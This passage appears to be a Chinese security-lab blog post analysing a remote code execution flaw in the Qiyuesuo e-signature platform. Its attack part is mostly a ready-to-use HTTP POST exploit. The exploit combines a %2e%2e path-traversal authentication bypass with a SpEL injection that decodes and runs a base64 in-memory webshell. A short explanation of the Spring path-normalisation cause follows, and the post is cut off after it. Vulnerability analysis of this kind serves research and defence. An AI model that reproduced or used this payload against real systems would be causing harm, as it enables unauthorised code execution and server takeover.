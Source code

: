 #  [漏洞分析-1]契*锁远程代码执行漏洞&upload代码执行漏洞利用分析调试

原创 马赛克安全实验室  [ 马赛克安全实验室 ](javascript:void\(0\);)

**马赛克安全实验室** ![]()

微信号 mosaic-sec

功能介绍 漏洞复现、渗透测试、nday、0day、网络安全、红蓝对抗

____

___发表于_

收录于合集 #漏洞分析 1个

  

![]()

![]()  
0x00免责声明

  

免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！  
[马赛克安全实验室情报申明（可点击查看）](http://mp.weixin.qq.com/s?__biz=MzI5MzU4ODE5Mw==&mid=2247483707&idx=1&sn=23c1c89c54988f437d192e3345525659&chksm=ec6e9cb5db1915a3d3286990ceac852229325315e448ba7731912b2633d52c7f21dd0b614d7e&scene=21#wechat_redirect)  

  

![]()

![]()

![]()  
0x01漏洞一概述

  

       契约锁漏洞，攻击者可构造恶意请求获取系统信息等及其它安全风险。目前网上流传一些关于契约锁漏洞，现也抽出一些时间对契约锁漏洞进行漏洞分析。

 **1.契约锁电子签章平台远程代码执行漏洞**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     POST /captcha/%2e%2e/template/html/add HTTP/1.1Host: xxxAccept-Encoding: gzip, deflateAccept: */*User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; WindowsNT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type: application/json  
    {"file":"abc","title":"abc","params":[{"extensionParam":"{\"expression\":\"vara=new org.springframework.expression.spel.standard.SpelExpressionParser();varb='base64 编码后的内存马 ';varb64=java.util.Base64.getDecoder();var deStr=newjava.lang.String(b64.decode(b),'UTF-8');varc=a['parseExpression'](deStr);c.getValue();\"}","name":"test"}]}

        我们根据漏洞poc来看，很明显是使用了../进行了跨目录进行权限绕过，经查阅资料使用/%2e%2e/绕过权限限制，简要说明是由于Spring框架使用了alwaysUseFullPath为默认值false，这会使得其获取ServletPath（后台路径），所以在路由匹配时相当于会进行路径标准化包括对%2e解码以及处理跨目录，从而绕过拦截器对../的限制。
